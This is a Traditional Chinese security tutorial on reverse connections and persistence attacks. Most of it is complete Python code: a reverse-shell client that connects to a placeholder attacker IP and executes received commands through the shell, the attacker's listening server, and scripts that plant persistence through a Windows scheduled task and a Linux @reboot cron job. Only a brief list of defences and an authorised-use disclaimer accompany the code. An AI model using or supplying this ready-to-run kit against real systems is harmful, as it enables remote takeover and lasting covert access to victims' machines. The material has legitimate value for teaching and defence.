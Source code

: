 ### 反向連接與持久化攻擊

反向連接與持久化攻擊是黑客入侵後的一種持久化攻擊技術，目的是保持對目標系統的隱秘訪問。反向連接技術通常指受害機器主動連接到攻擊者的系統，讓攻擊者可以在防火牆和其他安全設置的保護下，遠程操控受害機器。持久化攻擊則是指黑客安裝後門或設置其他隱秘機制，以便在清除系統後仍能夠重新入侵。

#### 1. **反向連接（Reverse Connection）**
反向連接（Reverse Shell）是一種駭客經常使用的技巧，受害機器會主動連接到攻擊者的系統，通常是通過防火牆或NAT（網絡地址轉換）環境。這樣可以避開防火牆和入侵檢測系統的監控，並使攻擊者能夠獲得遠程訪問權限。

#### 2. **持久化攻擊（Persistence Attack）**
持久化是黑客設置後門的一種方式，目的是確保在受害系統被清除或重新啟動後，黑客仍然可以重新獲得系統的控制權。這通常是通過修改系統啟動腳本、設置計劃任務、安裝隱秘的後門程序來實現。

### 反向連接與持久化攻擊的 Python 實作範例

以下是一些反向連接與持久化攻擊的示例，請注意這些範例僅用於學術研究與合法測試，請勿在未經授權的系統上運行這些代碼。

#### 1. **反向 Shell (Reverse Shell) 示例**

攻擊者通常會在目標機器上執行反向 shell 程式，該程式連接到攻擊者的系統並等待命令。

##### 反向 Shell 客戶端 (目標機器上的 Python 代碼)

```python
import socket
import subprocess

# 攻擊者的 IP 和端口
attacker_ip = 'attacker_ip_here'  # 攻擊者的 IP 地址
attacker_port = 9999             # 攻擊者的端口

# 建立反向連接
def reverse_shell():
    try:
        # 創建一個 socket 並連接到攻擊者的地址
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((attacker_ip, attacker_port))
        
        # 從攻擊者端接收命令並執行
        while True:
            command = s.recv(1024).decode('utf-8')
            if command.lower() == 'exit':
                break
            output = subprocess.run(command, shell=True, capture_output=True)
            s.send(output.stdout + output.stderr)
        
        s.close()
    except Exception as e:
        print(f"Error: {e}")

# 執行反向連接
reverse_shell()
```

這段代碼會在目標機器上創建一個反向連接到攻擊者的系統，並等待接收命令。當攻擊者發送命令時，目標系統會執行並將結果返回。

##### 反向 Shell 伺服器端 (攻擊者端 Python 代碼)

攻擊者端用以下 Python 代碼來接收反向連接並發送命令。

```python
import socket

# 攻擊者端監聽指定的 IP 和端口
server_ip = '0.0.0.0'  # 監聽所有接口
server_port = 9999     # 監聽端口

def start_reverse_shell_server():
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind((server_ip, server_port))
    s.listen(1)
    print(f"Listening on {server_ip}:{server_port}")
    
    client_socket, client_address = s.accept()
    print(f"Connection from {client_address}")
    
    # 發送命令給目標系統
    while True:
        command = input("Shell> ")
        if command.lower() == 'exit':
            client_socket.send(b'exit')
            break
        client_socket.send(command.encode())
        result = client_socket.recv(4096)
        print(result.decode())

    client_socket.close()

# 開始監聽
start_reverse_shell_server()
```

這段代碼在攻擊者端設置一個伺服器，等待反向連接。一旦受害者主機連接到攻擊者的端口，攻擊者便可以通過 `Shell>` 提示符發送命令，並收到執行結果。

#### 2. **持久化攻擊示例**

黑客可以在系統中設置定時任務或修改啟動腳本來達到持久化效果。以下是利用 Python 設置計劃任務的示例，讓攻擊者能夠在系統重啟後再次執行反向 shell。

##### 在 Windows 上創建計劃任務

```python
import os
import sys

# 設置計劃任務，當 Windows 開機時自動執行 Python 腳本
def create_persistence():
    # 設定任務名稱和要執行的命令
    task_name = "ReverseShell"
    script_path = sys.argv[0]  # 目前的腳本路徑
    
    # 使用 Windows 的 schtasks 設置計劃任務
    os.system(f'schtasks /create /tn "{task_name}" /tr "python {script_path}" /sc onlogon /f')

# 執行持久化
create_persistence()
```

此代碼將在每次系統登錄時自動運行反向 shell 程式，從而確保攻擊者能夠持續訪問受害機器。

##### 在 Linux 上創建 cron 任務

```python
import os

# 設置 cron 任務
def create_persistence():
    cron_job = "@reboot python3 /path/to/reverse_shell.py\n"
    with open("/etc/cron.d/reverse_shell", "w") as f:
        f.write(cron_job)

# 執行持久化
create_persistence()
```

這段代碼會將一個 cron 任務寫入 `/etc/cron.d`，確保在系統重啟後執行反向 shell。

### 防範反向連接與持久化攻擊的措施

1. **網絡層防禦**：
   - 配置防火牆，僅允許可信 IP 地址進行連接。
   - 使用 VPN 隧道或加密協議，保護網絡流量。

2. **終端監控與入侵檢測**：
   - 安裝和配置入侵檢測系統（IDS）和入侵防禦系統（IPS），以監控異常流量和行為。
   - 監控和檢查反向連接行為，識別可疑的網絡連接。

3. **系統加固與用戶管理**：
   - 定期檢查系統中的計劃任務和啟動腳本，確保不含惡意程序。
   - 強化用戶認證，禁用不必要的用戶和服務。

4. **保持系統更新**：
   - 維護並定期更新操作系統和應用程序，修補已知漏洞。

### 結論

反向連接和持久化攻擊是高效且隱秘的攻擊方式，旨在保證黑客可以持續訪問目標系統。了解並防範這些攻擊能夠幫助提高系統的安全性，防止遭受長期控制。